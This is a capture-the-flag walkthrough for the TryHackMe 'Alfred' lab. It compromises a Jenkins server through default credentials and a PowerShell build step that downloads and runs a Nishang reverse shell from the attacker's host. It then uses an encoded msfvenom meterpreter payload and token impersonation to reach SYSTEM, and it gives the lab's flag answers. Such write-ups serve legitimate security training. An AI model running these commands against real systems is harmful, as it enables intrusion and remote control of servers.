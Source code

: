 ###### Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
Room: https://tryhackme.com/room/alfred
##

**sudo nmap** -Pn -sS -sV -T5 -vv xx.xx.xxx.xx

```
PORT     STATE SERVICE    REASON          VERSION
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

If we go to http://machineIP/8080, we can see a Jenkins application running.   
Bruteforcing this reveals the login credentials. I just checked the default jenkins credentials first.
```
username: admin
password: admin
```
Create a new project/edit the current one and add the following commands  
```
powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://xx.x.x.xxx:8000/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress xx.x.x.xxx -Port 1111
```
**Note:** DO NOT change the file name. It won't work.  
The file **Invoke-PowerShellTcp.ps1** is from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).  

Before Building the Project on Jenkins, be sure you started a local listener & HTTP server and the Invoke-PowerShellTcp.ps1 file is available.  

Then, Build the Project on Jenkins. From your server, it'll download the .ps1 file.  
On your listener, you'll get a shell.  

**server terminal** 
```
xx.xx.xxx.xx - - [11/Oct/2021 00:21:32] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

**listener terminal**
```
onnect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xxx.xx] 49217
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

The first flag is on C:\Users\bruce\Desktop   **[1]**  
> 79007a09481963edf2e1321abd9ae2a0

Generate a payload using **msfvenom**.   
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=xx.x.x.xxx LPORT=1112 -f exe -o shell.exe
```
Upload it by using the following command  

```powershell "(New-Object System.Net.WebClient).Downloadfile('http://attacking_machine_ip:8000/shell.exe','shell.exe')"```

Before running the script, open **metasploit** and run the following commands  

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST attackin_machine_IP
set LPORT listening-port 
run
```

You should see something similar    
```
[*] Started reverse TCP handler on xx.x.x.xxx:1112
```

Now, on the target machine run **Start-Process "shell.exe"**.  
We got a meterpreter shell running.  

On the meterpreter shell, use **load incognito**.  
Then, use **impersonate_token "BUILTIN\Administrators** to escalate our privileges.  

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
The second and final flag is in C:\Windows\System32\config\root.txt    **[2]**
> dff0f748678f280250f25a45b8046b4a
##
**Note**: This room can be exploited without the help of metasploit by uploading a static incognito.exe binary since user bruce has the impersonate privileges. Then, we can use the static binary to create a new user with administrator privileges and use RDP to access the machine.
